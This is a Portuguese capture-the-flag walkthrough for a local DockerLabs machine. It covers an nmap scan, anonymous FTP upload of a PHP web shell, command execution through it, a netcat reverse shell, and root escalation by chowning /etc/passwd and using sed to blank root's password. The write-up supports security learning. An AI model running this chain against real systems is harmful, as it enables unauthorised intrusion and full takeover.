



Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sV -sC --open -p- -T5 -n -Pn
Vemos muitas informações do serviço FTP, onde o usuário anônimo está habilitado . Observamos que todas as informações que nos são reportadas no serviço ftp são os arquivos fonte do site que roda na porta 80. Além disso, verificamos se o diretório /upload dentro do site possui capacidade de lista de diretórios , portanto será fácil a intrusão. Podemos fazer upload de um shell reverso e acessá-lo na web para obter acesso. Nós o carregamos no diretório /upload , que é o único lugar onde temos permissões de gravação.
vamos entrar no usuário Anonymous do ftp.
ftp anonymous@172.17.0.2
agora crie o shel.php com nano, para enviar para maquina vitma .

com o comando put shel.php o arquivo foi baixado na maquina vitima, na pasta upload conforme a imagem abaixo.
vamos entra no navegador com http://172.17.0.2/upload/shel.php
aparentemente parece que nao fucionou, mas fucionou sim .
http://172.17.0.2/upload/shel.php?cmd=whoami
agora vamos vamos uma reverse shell com bash, para nos termos acesso a maquina da vitima,
no terminal da maquina atacante, com netcat.
vamos pegar a reverse shell no site: https://www.revshells.com/
vamos usar o Burp Suite .
na foto acima na parte de ( ENCODE AS= selecione Url ), copia e cole onde a seta esta marcando ok.
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
ESCALAÇAO DE PRIVILÉGIOS
vamos pegar o reverse man no site https://gtfobins-github-io

vamos repetir o comando sudo -l
sudo -u gladys /usr/bin/dpkg -l
sudo -l
Podemos executar chown como root. Alteramos o proprietario de /etc/passwd :
Temos o binário chown como root para que você possa alterar o proprietário de determinados arquivos para remover a senha do usuário root, vamos ver como fazer:
executaremos chown da seguinte maneira:
sudo -u root chown gladys /etc/passwd
sudo -u root: executará o comando como usuário root, pois é o único que tem permissão como visto na imagem.
chown gladys /etc/passwd: estamos indicando que /etc/passwd passa a ser propriedade de gladys.
Para ver se funcionou, executaremos ls -l /etc/passwd e nosso usuário deverá aparecer como proprietário.
Nesta máquina não temos nano, vi ou vim para editar arquivos então faremos e vamos ver como fazer:
comando: sed -i 's/root:x:/root::/g' /etc/passwd
mas nos dirá que a permissão foi negada, então teremos que copiar passwd para tmp ,
modificá-lo com o parâmetro -i e verificar se a senha do usuário root foi removida.
sed -i 's/root:x:/root::/g' /tmp/passwd

agora executamos cat de passwd e o x do usuário root deve ser eliminado
Agora devemos copiar este arquivo para /etc/passwd faremos isso com o seguinte comando:
Vemos que o x foi removido corretamente, entao vamos tentar mudar para root com o seguinte comando:
su ou su root
somos root
bobmarley